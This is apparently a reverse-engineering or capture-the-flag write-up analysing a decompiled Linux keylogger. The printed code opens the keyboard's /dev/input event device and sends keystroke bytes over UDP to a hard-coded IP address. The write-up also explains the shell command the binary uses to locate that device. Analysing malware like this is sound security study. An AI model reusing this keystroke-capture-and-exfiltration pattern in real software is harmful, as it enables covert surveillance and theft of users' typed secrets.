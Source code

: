 ```c
local_20 = open(&local_c8,0);
if (local_20 < 0) {
	perror("Error opening file");
	exit(1);
}
free(local_18);
local_24 = socket(2,2,0);
if (-1 < local_24) {
	local_58.sa_family = 2;
	local_58.sa_data._2_4_ = inet_addr("192.168.136.47");
	local_58.sa_data._0_2_ = htons(8000);
	do {
		sVar2 = read(local_20,local_48,0x18);
		if (sVar2 != 0x18) {
			perror("Error reading from file");
			exit(1);
		}
		for (i = 0x10; i < 0x16; i = i + 1) {
			local_c9 = local_48[i];
			sVar2 = sendto(local_24,&local_c9,1,0,&local_58,0x10);
			if (sVar2 < 0) {
				perror("Error sending data");
				exit(1);
			}
		}
	} while( true );
}
perror("Error creating socket");
exit(1);
```

We start to understand the binary 
First we see some numbers are assigned to variables we interest to this one
`local_18 = execute_command(&local_a8);`  note that the function execute_command takes an address as argument so the string that take is from `locak_a8` to `local_70` (it is an array ) if we try to decode that string we will find 
`cat /proc/bus/input/devices | grep keyboard -A 5 | grep -o -E  'event[0-9]+'`

a Quick search about this file  `/proc/bus/input/devices` I find this :

>This file will provide the needed information for all devices except USB multimedia/office keyboards.

So we read this file and pipeline it with `grep` to search about `keyboard`  the option `-A 5` stands for `print 5 line after the line contains keyboard` and another pipeline to look about `event`  the option `-o` is for `only word match` and the option `-E` is to search with the regex format 
if we test it locally I get just one word `event0` (maybe it is different in your linux machine)
so our variable `local_18` get the from the `execute command` function the event number of the keyboard 
After that we have this part 
```c
local_c8 = 0x706e692f7665642f;
local_c0 = 0x2f7475;
uStack_b9 = 0;
strcat(&local_c8,local_18);
sVar1 = strcspn(&local_c8,"\n");
local_1c = sVar1;
*(&local_c8 + local_1c) = 0;
```
`local_c8` has this string `/dev/input/` and it will be concatenate with `local_18` (the event number) and we remove the new line so `local_c8` become like this `/dev/input/event0`
